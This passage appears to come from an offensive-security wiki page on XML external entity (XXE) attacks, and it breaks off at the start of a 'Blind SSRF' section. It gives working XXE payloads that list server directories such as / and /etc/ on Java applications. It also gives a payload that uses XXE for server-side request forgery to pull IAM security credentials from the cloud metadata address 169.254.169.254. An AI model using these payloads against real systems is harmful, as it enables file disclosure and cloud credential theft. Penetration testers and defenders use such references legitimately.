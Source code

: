 ![](../.gitbook/assets/image%20%2832%29.png)

### Directory listing

In **java** based applications it might be possible to **list the contents of a directory** via XXE with a payload like:

```markup
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

### SSRF

An XXE could be used to abuse a SSRF inside a cloud

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Blind SSRF

Using the **previously commented technique** you can make the server access a server you control to show it's vulnerable. But, if that's not working, maybe is because **XML entities aren't allowed**, in that case you could try using **XML parameter entities**:
